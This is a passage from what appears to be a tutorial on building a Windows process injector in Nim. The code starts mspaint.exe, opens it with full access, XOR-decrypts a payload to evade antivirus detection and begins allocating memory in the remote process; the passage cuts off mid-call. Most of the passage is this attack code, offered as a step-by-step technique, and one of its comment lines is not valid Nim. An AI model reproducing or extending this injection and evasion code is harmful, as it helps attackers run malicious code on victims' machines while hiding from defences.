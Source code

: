 ![img](./img/2024-06-01_12-15.png)    

So, it seems our simple injection logic worked!     

### practical example 2

Let's update our simple example. Add simple AV evasion trick: encrypt our payload.    

For simplicity, we use XOR encryption algorithm. Our new example looks like this:    

```nim
import osproc
import winim

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

let mykey: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]
let encrypted: seq[byte] = @[] // encrypted payload

when isMainModule:
    let payload = xorEnc(encrypted, mykey)
    let mem = VirtualAllocEx(
        ph,
        NULL,
```